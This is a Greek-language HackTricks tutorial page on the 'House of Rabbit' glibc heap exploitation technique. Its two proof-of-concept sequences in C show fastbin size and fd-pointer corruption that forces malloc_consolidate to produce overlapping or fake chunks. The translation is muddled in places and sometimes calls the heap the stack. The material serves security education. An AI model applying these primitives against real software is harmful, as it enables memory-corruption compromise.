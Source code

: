 # Σπίτι του Κουνελιού

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

### Απαιτήσεις

1. **Ικανότητα τροποποίησης του δείκτη fd ή μεγέθους fast bin**: Αυτό σημαίνει ότι μπορείτε να αλλάξετε τον προωθούμενο δείκτη ενός τμήματος στο fastbin ή το μέγεθός του.
2. **Ικανότητα ενεργοποίησης του `malloc_consolidate`**: Αυτό μπορεί να γίνει είτε με τη δέσμευση ενός μεγάλου τμήματος είτε με τη συγχώνευση του κορυφαίου τμήματος, το οποίο αναγκάζει τη συγχώνευση των τμημάτων του σωρού.

### Στόχοι

1. **Δημιουργία επικαλυπτόμενων τμημάτων**: Να υπάρχει ένα τμήμα που επικαλύπτεται με ένα άλλο, επιτρέποντας περαιτέρω διαχείριση του σωρού.
2. **Δημιουργία ψεύτικων τμημάτων**: Να εξαπατήσετε τον διανεμητή ώστε να θεωρήσει ένα ψεύτικο τμήμα ως νόμιμο κατά τις λειτουργίες του σωρού.

## Βήματα της επίθεσης

### POC 1: Τροποποίηση του μεγέθους ενός τμήματος fast bin

**Στόχος**: Δημιουργία ενός επικαλυπτόμενου τμήματος με την τροποποίηση του μεγέθους ενός τμήματος fastbin.

* **Βήμα 1: Δέσμευση Τμημάτων**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Βήμα 2: Απελευθέρωση Χύματων**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Βήμα 3: Τροποποίηση Μεγέθους Χαντρών**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Βήμα 4: Ενεργοποίηση της `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Η δέσμευση ενός μεγάλου κομματιού ενεργοποιεί τη λειτουργία `malloc_consolidate`, συγχωνεύοντας μικρά κομμάτια στο γρήγορο bin. Το χειρισμένο μέγεθος του `chunk1` προκαλεί επικάλυψη με το `chunk2`.

Μετά τη συγχώνευση, το `chunk1` επικαλύπτεται με το `chunk2`, επιτρέποντας περαιτέρω εκμετάλλευση.

### POC 2: Τροποποίηση του δείκτη `fd`

**Στόχος**: Δημιουργία ψεύτικου κομματιού με τη χειρισμό του δείκτη `fd` του γρήγορου bin.

* **Βήμα 1: Δέσμευση Κομματιών**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Εξήγηση**: Δεσμεύουμε δύο τμήματα, ένα μικρό και ένα μεγαλύτερο, για να ρυθμίσουμε τη στοίβα για το ψεύτικο τμήμα. 

* **Βήμα 2: Δημιουργία ψεύτικου τμήματος**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Βήμα 3: Απελευθέρωση του `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Εξήγηση**: Απελευθερώνουμε το `chunk1`, προσθέτοντάς το στη λίστα fastbin.

* **Βήμα 4: Τροποποίηση του `fd` του `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Εξήγηση**: Αλλάζουμε τον προωθούμενο δείκτη (`fd`) του `chunk1` ώστε να δείχνει στο ψεύτικο chunk μέσα στο `chunk2`.

* **Βήμα 5: Ενεργοποίηση της `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Η επαναδιάθεση ενός μεγάλου κομματιού ενεργοποιεί ξανά το `malloc_consolidate`, το οποίο επεξεργάζεται το ψεύτικο κομμάτι.

Το ψεύτικο κομμάτι γίνεται μέρος της λίστας fastbin, καθιστώντας το ένα νόμιμο κομμάτι για περαιτέρω εκμετάλλευση.

### Σύνοψη

Η τεχνική **House of Rabbit** περιλαμβάνει είτε την τροποποίηση του μεγέθους ενός κομματιού fast bin για τη δημιουργία επικαλυπτόμενων κομματιών είτε τη χειραγώγηση του δείκτη `fd` για τη δημιουργία ψεύτικων κομματιών. Αυτό επιτρέπει στους εισβολείς να δημιουργήσουν νόμιμα κομμάτια στη στοίβα, επιτρέποντας διάφορες μορφές εκμετάλλευσης. Η κατανόηση και η εξάσκηση αυτών των βημάτων θα βελτιώσει τις δεξιότητές σας στην εκμετάλλευση της στοίβας.
